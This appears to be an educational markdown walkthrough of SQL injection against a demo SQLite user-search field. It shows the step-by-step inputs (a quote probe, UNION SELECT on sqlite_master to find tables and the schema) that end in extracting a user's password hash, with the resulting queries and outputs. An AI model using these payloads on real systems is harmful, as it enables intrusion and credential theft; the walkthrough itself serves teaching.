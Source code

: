 # Step 0

Add some user to the database. Here we call them "Karl".

## Query for searching for users
This is something that we only know if we have access to the source code. It is included here for clarity. We assume that a hacker deduced that the query looks something like this.
´´´ sql
SELECT user FROM credentials WHERE user LIKE '%{}%'
´´´
The ´{}´ is replaced with the user input.

The name of the table and the column are something that we will first need to find out.

# Step 1

We check if quotation marks are escaped when adding user input to the query.

## Input
´´´ sql
'
´´´

## Query after Injection
´´´ sql
SELECT user FROM credentials WHERE user LIKE '%'%'
´´´

## Result

Error: unrecognized token: "'"

## Interpretation

This input field is susceptible to SQL injection!

# Step 2

Now that we can inject arbitrary SQL code into the query, we use ´UNION´ to add more results to the users query. Here we want to find out some metadata. The ´sqlite_master´ table is a protected tablename in sqlcipher.

## Input
´´´ sql
' UNION SELECT name FROM sqlite_master '
´´´

## Query after Injection
´´´ sql
SELECT user FROM credentials WHERE user LIKE '%' UNION SELECT name FROM sqlite_master '%'
´´´

## Result

The following users match your query: ["Karl", "credentials", "sqlite_autoindex_credentials_1"]

## Interpretation

The first result is the intended username. The second and third results are the names of tables stored in this database.

The free floating ´'%'´ at the end of the query is simply ignored.

# Step 3

Now that we know the name of the table, we want to know the names of its columns. Everything after and including the ´WHERE´ is necessary such that the type of the result matches that of the user column, which by trial and error we find to be ´TEXT NOT NULL´.

## Input
´´´ sql
' UNION SELECT sql FROM sqlite_master WHERE sql IS NOT NULL AND sql LIKE '
´´´

## Query after Injection
´´´ sql
SELECT user FROM credentials WHERE user LIKE '%' UNION SELECT sql FROM sqlite_master WHERE sql IS NOT NULL AND sql LIKE '%'
´´´

## Result

The following users match your query: ["CREATE TABLE credentials (\n        user TEXT NOT NULL PRIMARY KEY,\n        password_hash TEXT NOT NULL\n    )", "Karl"]

## Interpretation

The first search result is the command the table "credentials" was created with. It contains the information that it has column names "user" and "password_hash".

# Step 3

We know the names and types of the table and columns, it is time to extract the information we are looking for.

## Input
´´´ sql
' UNION SELECT password_hash FROM credentials '
´´´

## Query after Injection
´´´ sql
SELECT user FROM credentials WHERE user LIKE '%' UNION SELECT password_hash FROM credentials '%'
´´´

## Result

The following users match your query: ["03ac674216f3e15c761ee1a5e255f067953623c8b388b4459e13f978d7c846f4", "Karl"]

## Interpretation

This is the hashed password of Karl. From the length we can deduce that it is most probably a SHA-256 Hash.